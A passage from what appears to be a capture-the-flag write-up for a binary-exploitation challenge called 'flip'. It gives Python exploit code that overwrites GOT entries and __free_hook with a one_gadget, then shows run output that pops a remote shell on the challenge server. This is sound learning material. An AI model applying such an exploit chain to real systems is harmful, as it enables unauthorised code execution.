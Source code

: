 Woop woop! We can now flip bits over and over again, and we have defeated ASLR.
After a lot of trial and error trying to find bitflips that we can use to turn
`__free_hook()` into something that will give us arbitrary code execution, the
following plan emerges:
1. change `asctime()` into a nop
2. change `localtime()` into a nop
3. change `__free_hook()` into a one-shot gadget
4. change `localtime()` back

The next time the program calls `initialize()`, `localtime()` will trigger a
call to `free()`, which in turn calls the
[one-shot gadget](https://david942j.blogspot.com/2017/02/project-one-gadget-in-glibc.html).
To turn `asctime()` and `localtime()` into nops, we found some nearby addresses
that contained a `ret` instruction.

Here's the last part of the code:
```python
# turn asctime into a nop to avoid crashes because we've turned
# localtime into a nop
ret = libc_base + libc.symbols["asctime"] - 0x2c
arbitrary_write(elf.got["asctime"], ret, libc_base + libc.symbols["asctime"])
pad_flips()

# turn localtime into a nop to avoid calls to free() while we're
# overwriting __free_hook
ret = libc_base + libc.symbols["localtime"] - 0x60
arbitrary_write(elf.got["localtime"], ret, libc_base + libc.symbols["localtime"])

# now we can safely overwrite __free_hook without any crashes
arbitrary_write(libc_base + libc.symbols["__free_hook"], one_gadgets[2], 0x00)
pad_flips()

# now we can fix up localtime so that it ends up calling free(), which in turn
# will call our selected one_gadget through __free_hook
arbitrary_write(elf.got["localtime"], libc_base + libc.symbols["localtime"], ret)
r.recvuntil("to flip: ")

r.sendline("0x601010:8") # trigger early exit with invalid bit position
log.success("enjoy your shell! <3")

r.interactive()
```

The complete code can be found [here](src/solve.py).

Let's get that flag!
```bash
$ python2 solve.py flip.tghack.no 1947
[+] Opening connection to flip.tghack.no on port 1947: Done
[*] '/home/user/flip'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/user/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] exit: 0x400766
[*] leak: 0x7f77f894b9c0
[+] libc base: 0x7f77f88cb000
[+] enjoy your shell! <3
[*] Switching to interactive mode
```